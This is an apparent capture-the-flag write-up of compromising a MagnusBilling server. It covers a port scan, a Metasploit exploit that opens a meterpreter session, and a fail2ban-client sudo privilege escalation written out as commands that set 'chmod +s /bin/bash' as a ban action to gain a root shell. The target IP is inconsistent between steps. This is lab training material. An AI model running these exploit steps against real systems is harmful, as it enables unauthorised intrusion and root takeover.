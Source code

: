 #### Target Ip :  10.201.76.54

-----------

RustScan 

rustscan -a 10.201.76.54 -- -sC -sV 

![[Pasted image 20251025174816.png]]

We found open ports :  

Open 10.201.76.54:22  
Open 10.201.76.54:80
Open 10.201.76.54:3306
Open 10.201.76.54:5038

![[Pasted image 20251025183606.png]]

These are the service running on the server.

----------------
Then we found a exploit on msf console and the service was MagnusBilling


msf > search MagnusBilling

![[Pasted image 20251025183737.png]]

msf > use 0

msf >show options

![[Pasted image 20251025184034.png]]

msf >set RHOSTS 10.201.89.202

msf >set LHOST 10.17.17.19

msf >run

Now we get the meterpreter session 

![[Pasted image 20251025184353.png]]

Then back to the home directory 

Found total 3 users 

![[Pasted image 20251025184711.png]]

So finally in the magnus user i found the user.txt flag

----------------
Now lets find the root.txt Flag

To do that we have to escalate priviellage

check which service we can use under sudo permission . Before that change the meterpreter shell to normal shell.

meterpreter > shell

sudo -l

![[Pasted image 20251025190512.png]]

we found fail2bn service that have sudo permission......

**fail2ban :** Fail2ban is an open-source intrusion prevention software for Linux that protects servers from brute-force attacks by monitoring log files for suspicious activity and automatically banning malicious IP addresses.

lets exploit these service !!!!!!!!!!

we found a exploit on https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/fail2ban-command/

# Investigation

sudo -l

# Output:

(ALL) NOPASSWD: /usr/bin/fail2ban-client

**If we can execute fail2ban-client command as root, we may be able to escalate privilege and gain a root shell.**

# Exploit

# Get jail list
sudo /usr/bin/fail2ban-client status
# Choose one of the jails from the "Jail list" in the output.
sudo /usr/bin/fail2ban-client get <JAIL> actions
# Create a new action with arbitrary name (e.g. "evil")
sudo /usr/bin/fail2ban-client set <JAIL> addaction evil
# Set payload to actionban
sudo /usr/bin/fail2ban-client set <JAIL> action evil actionban "chmod +s /bin/bash"
# Trigger the action
sudo /usr/bin/fail2ban-client set <JAIL> banip 1.2.3.5
# Now we gain a root
/bin/bash -p


